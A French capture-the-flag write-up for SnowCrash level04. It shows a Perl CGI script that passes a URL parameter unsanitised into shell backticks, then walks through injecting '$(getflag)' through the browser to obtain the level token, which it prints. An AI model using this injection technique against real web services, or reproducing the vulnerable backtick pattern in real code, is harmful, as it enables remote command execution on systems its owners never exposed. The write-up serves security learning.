 ```bash
level04@SnowCrash:~$ ls -la
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
```

Il s'agit d'un fichier perl [Wikipedia](https://fr.wikipedia.org/wiki/Perl_(langage)).

level04.pl:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

On fait des recherches pour comprendre ce que fais exactement ce fichier:

[CGI](https://perl.mines-albi.fr/ModulesFr/CGI.html) qui gere les parametres dans une requete.

On essaye de metre notre IP dans notre navigateur internet et on arrive bien a atteindre notre machine.
```
It works!

This is the default web page for this server.

The web server software is running but no content has been added, yet.
```

Nous pouvons voir egalement que pour le localhost on utilise le 4747

```perl
# localhost:4747
```

On essaye donc `http://192.168.1.74:4747/` => Page blanche.

On essaye d'eploiter le parametre "x" => `http://192.168.1.74:4747/?x=getflag`
getflag est affiche dans le navigateur, si on mets "toto" ca affiche... "toto" :)

On essaye d'afficher le PATH pour voir si on peut exploiter plus en profondeur le script
`http://192.168.1.74:4747/?x=$PATH` => `/usr/local/bin:/usr/bin:/bin` dans le navigateur

On essaye d'executer `getflag` depuis le navigateur: `http://192.168.1.74:4747/?x=$(getflag)` et on obtient le flag :D

Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap 